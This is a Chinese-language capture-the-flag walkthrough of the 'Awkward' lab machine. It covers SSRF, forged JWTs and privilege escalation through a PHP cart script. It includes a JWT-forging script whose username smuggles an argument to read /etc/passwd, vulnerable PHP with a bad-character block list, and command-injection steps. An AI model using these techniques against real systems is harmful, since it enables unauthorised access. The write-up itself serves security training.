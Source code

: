 # Awkward

Awkward 是一款中等难度的机器，它突出显示了不会导致 RCE 的代码注入漏洞，而是 SSRF、LFI 和任意文件写入/追加漏洞。此外，该框还涉及通过不良的密码做法（例如密码重用）以及以纯文本形式存储密码来绕过身份验证。

---

## 外部信息收集

### 端口扫描

循例nmap

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d6f3b199-25f0-b799-6929-eab63dacee3a.png)

### Web枚举

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/63548b1a-bc0e-44be-58ec-f802cdc97562.png)

#### Vhost枚举

ffuf

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/6639675c-b35e-0865-1818-276b7b5bb1cc.png)

从主站的开发者工具中能找到router.js，里面有几个路由

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/7878a5b5-18eb-2350-9aa9-536a8d214b7e.png)

/hr

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/916e487d-c4b5-bf6d-0cae-1259a90664df.png)

http请求里有个token，常规把guest改admin，然后刷新页面

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/8b5c0045-5f4b-109b-9fc2-322459bd7c7c.png)

跳转到了dashboard

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/61bf9bff-12d2-1339-8bff-9d5fba04f14a.png)

现在我们继续看services下的/api端点

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/bc659f0d-1456-496d-5c22-865523944566.png)

通过staff-details，我们能够获得user和密码hash

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/6e3c1269-a4a1-7381-bb38-a9e68c295097.png)

hashcat爆出一个，是christopher.jones的

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/2a669931-fb21-8a4a-7478-fee015886b4b.png)

把token重置为guest，然后到/hr登录

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/80879801-7594-d4dd-5441-63e6d5950db9.png)

#### SSRF

store-status参数是一个url，盲猜SSRF, 直接给一个url发现没成功

通过常规@符逃逸就成功了

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/c60daff8-b5d5-1f88-a798-46dd9274fcd2.png)

前面的store子域是需要登录的，密码重用没成功

通过SSRF扫内网的http服务

生成数字字典

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d0c55a86-9781-9486-0e38-9b6050a68f21.png)

ffuf

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/bf32d32c-b907-20b2-522a-5ae1247d0b70.png)

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/5887c6e6-375c-9933-0124-5279394730b8.png)

3002披露了那几个api的后端源码

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/a013b00d-6319-d79f-a046-4b85b7a14ed3.png)

#### Foothold

值得注意的是all-leave，这里user虽然被黑名单严格检测，但依然有可乘之机, 这将通过jwt来让它妥协

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/bd090acc-5bbf-e0bc-5684-a05c3aa651e5.png)

这里的jwt是签名的，通过jhon爆破得到密钥

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d30ceb86-349f-b9ac-c53a-36fec89eddb3.png)

生成jwt poc

```python3
import jwt


key = "123beany123"
algorithm = "HS256"
payload = {"username": "/' /etc/passwd '"}

token = jwt.encode(payload, key, algorithm=algorithm)
print(token)
```

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/a4541965-832c-d530-cb0d-0da7521bf1b0.png)

两个用户，读/home/bean/.bashrc

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/75d3ad32-5456-c315-fe56-c36eb78ab637.png)

读backup_home.sh

```bash
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```

从浏览器下.tar.gz，解压之后得到

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/dda7b41e-9029-455c-e1f0-c689e0c009ef.png)

在xpad中能看到bean的明文凭据

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/11bee282-05b6-0057-7a5c-7001b5a27337.png)

通过这个明文密码，我们可以登bean的ssh

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/263e86b5-553c-ac3e-0f00-56ca34099d00.png)

## 本地权限提升

现在，我们能够通过admin:bean的凭据 登录store子域

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/7c0677d7-e83c-99f5-2f5c-f9cc52ee3ed9.png)

同时，pspy也发现了root似乎在读leave_requests.csv后发送了一封邮件，我看到bean.hill时我想应该可以修改leave_requests.csv将username改为恶意命令来达到劫持这条命令的效果

```shell
2024/01/05 23:40:01 CMD: UID=0     PID=4834   | tail -1 /var/www/private/leave_requests.csv 
2024/01/05 23:40:01 CMD: UID=0     PID=4836   | /bin/bash /root/scripts/notify.sh 
2024/01/05 23:40:01 CMD: UID=0     PID=4841   | trivial-rewrite -n rewrite -t unix -u -c 
2024/01/05 23:40:01 CMD: UID=0     PID=4840   | mail -s Leave Request: bean.hill christine
```

然鹅/var/www/private/leave_requests.csv无权读写

在store查看时，我发现了一些txt，并且去读取了它们，这些似乎是一些http参数

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/9168c7d7-720a-7572-b4d5-f7bb7820f031.png)

grep

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/5fab8cc7-282b-a627-1296-10a7e2f68a7e.png)

在cart_actions.php中，值得关注的是这些代码

```php
//check for valid hat valley store item
function checkValidItem($filename) {
    if(file_exists($filename)) {
        $first_line = file($filename)[0];
        if(strpos($first_line, "***Hat Valley") !== FALSE) {
            return true;
...
//add to cart
if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'add_item' && $_POST['item'] && $_POST['user']) {
    $item_id = $_POST['item'];
    $user_id = $_POST['user'];
    $bad_chars = array(";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"); //no hacking allowed!!

    foreach($bad_chars as $bad) {
        if(strpos($item_id, $bad) !== FALSE) {
            echo "Bad character detected!";
            exit;
        }
    }

    foreach($bad_chars as $bad) {
        if(strpos($user_id, $bad) !== FALSE) {
            echo "Bad character detected!";
            exit;
        }
    }

    if(checkValidItem("{$STORE_HOME}product-details/{$item_id}.txt")) {
        if(!file_exists("{$STORE_HOME}cart/{$user_id}")) {
            system("echo '***Hat Valley Cart***' > {$STORE_HOME}cart/{$user_id}");
        }
        system("head -2 {$STORE_HOME}product-details/{$item_id}.txt | tail -1 >> {$STORE_HOME}cart/{$user_id}");
        echo "Item added successfully!";
    }
```

虽然我们依然无法直接rce，但是product-details/和cart/两个目录我们都有777权限，private/ www-data组应该有权限

在product-details/下创建一个新的4.txt，在第二行写入恶意命令

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/79e0e485-b798-88bd-659c-6a66d16f731b.png)

去到cart/创建软连接

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/99dd1622-da3c-d966-aa37-8af4fe3924ac.png)

创建cmd.sh

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/2c3a9099-c884-d8dd-e50c-6b1f7598f053.png)

请求cart_actions.php

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/ece94ae1-aa13-9458-d0e6-77bbe9aca98e.png)

不出意外它会到来，**除非手慢了**

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/22818631-dc5b-6e71-b59f-3c8f1c8c1af1.png)

